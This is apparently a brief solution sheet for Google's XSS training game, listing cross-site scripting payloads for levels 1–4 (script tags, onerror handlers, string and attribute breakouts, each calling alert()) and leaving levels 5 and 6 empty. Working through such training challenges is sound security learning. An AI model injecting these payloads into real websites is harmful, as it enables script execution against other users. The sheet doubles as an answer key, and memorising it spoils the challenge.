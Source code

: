 # https://xss-game.appspot.com/

## Level 1
Insert
`<script>alert();</script>`
inside the input text box.

## Level 2
Insert
`<img src="asdgf.png" onerror="javascript:alert();" />`
inside the input text box.

## Level 3
Insert
`'onerror="alert();"`
into the URL bar after the #.

## Level 4
Insert
`1}}'); alert();('{{`
inside the input text box.

## Level 5

## Level 6

